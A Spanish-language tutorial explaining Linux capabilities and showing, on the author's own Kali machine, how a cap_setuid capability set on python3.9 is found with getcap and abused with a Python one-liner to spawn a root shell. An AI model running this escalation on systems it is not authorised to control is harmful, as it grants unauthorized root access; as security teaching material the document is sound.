 # ¿Qué son *capabilities*?

Estas nos permiten **poner en partes** los privilegios de **root** en distintos valores. Así podremos asignarlos de forma independiente a múltiples procesos y que cuenten con el permiso necesario para ejecutar un proceso sin necesidad de convertirse en **__superusuarios__**.

##### Conocer más sobre capabilities:
* [Capabilities - Linux Manual Page](https://man7.org/linux/man-pages/man7/capabilities.7.html)
* [Linux Kernel Capabilities](https://www.incibe-cert.es/blog/linux-capabilities)

### Ejemplo de Capabilitie **__setuid__**:

**__Hemos creado previamente una Capabilitie setuid con Python3.9__**  

1. Como primer punto debemos saber las capabilities existentes para tratar de vulnerar alguna de ellas
```s
┌──(kali㉿edison)-[/]
└─$ getcap -r / 2>/dev/null 
```
**Salida:**
```bash
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/python3.9 cap_setuid=ep
/usr/bin/fping cap_net_raw=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/dumpcap cap_net_admin,cap_net_raw=eip
```

2. Notamos que **Python3.9** usa esta capabilitie y ahora escribimos nuestro código para ganar acceso como **__root__**:

```bash
┌──(kali㉿edison)-[/]
└─$ python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

3. Vemos como se nos despliega una consola tipo **bash** y que hemos conseguido tener acceso como root:

```bash
┌──(root💀edison)-[/]
└─# whoami
root
```

